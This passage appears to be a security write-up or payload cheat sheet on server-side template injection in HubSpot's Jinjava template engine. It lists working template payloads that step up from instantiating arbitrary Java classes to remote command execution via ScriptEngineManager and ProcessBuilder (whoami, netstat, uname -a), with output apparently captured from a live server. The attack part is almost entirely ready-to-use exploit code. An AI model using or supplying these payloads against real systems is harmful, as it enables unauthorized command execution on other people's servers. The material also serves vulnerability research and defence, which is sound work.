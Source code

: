 Search for "com.hubspot.content.hubl.context.TemplateContextRequest" and discovered the [Jinjava project on Github](https://github.com/HubSpot/jinjava/).
```java
{{request.isDebug()}}
//output: False

//Using string 'a' to get an instance of class sun.misc.Launcher
{{'a'.getClass().forName('sun.misc.Launcher').newInstance()}}
//output: sun.misc.Launcher@715537d4

//It is also possible to get a new object of the Jinjava class
{{'a'.getClass().forName('com.hubspot.jinjava.JinjavaConfig').newInstance()}}
//output: com.hubspot.jinjava.JinjavaConfig@78a56797

//It was also possible to call methods on the created object by combining the



{% raw %}
{% %} and {{ }} blocks
{% set ji='a'.getClass().forName('com.hubspot.jinjava.Jinjava').newInstance().newInterpreter() %}
{% endraw %}


{{ji.render('{{1*2}}')}}
//Here, I created a variable 'ji' with new instance of com.hubspot.jinjava.Jinjava class and obtained reference to the newInterpreter method. In the next block, I called the render method on 'ji' with expression {{1*2}}.

//{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
//output: xxx

//RCE
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
//output: java.lang.UNIXProcess@1e5f456e

//RCE with org.apache.commons.io.IOUtils.
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//output: netstat execution

//Multiple arguments to the commands
Payload: {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//Output: Linux bumpy-puma 4.9.62-hs4.el6.x86_64 #1 SMP Fri Jun 1 03:00:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
**Qapla'!**
